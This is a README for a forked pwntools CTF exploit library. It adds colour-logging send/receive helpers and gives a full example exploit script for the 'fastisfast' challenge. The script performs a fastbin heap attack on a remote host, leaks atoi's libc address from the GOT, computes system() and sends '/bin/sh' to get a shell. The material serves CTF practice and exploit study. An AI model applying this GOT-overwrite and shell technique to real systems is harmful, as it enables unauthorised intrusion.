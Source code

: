 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):
        raw_input('\33[1;31;40m[+] Debug: Attach GDB.\33[0m')

    def Log(self,String):
        print '\33[1;31;40m'+'[+] '+ String+'\33[0m'

    def LogRecvUntil(self,String):
        print self.recvuntil(String)

    def LogRecvNoBlocking(self):
        print self.recv()

    def LogRecv(self,Len):
        Data = self.recv(Len)
        print Data
        return Data

    def LogSend(self,Data):
        print '\33[1;36;40m'+Data+'\33[0m'
        self.send(Data)

    def LogSendAndRecv(self,Data):
        print '\33[1;36;40m'+Data+'\33[0m'
        self.send(Data)
        print self.recv()
```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```

![example](./example.png)

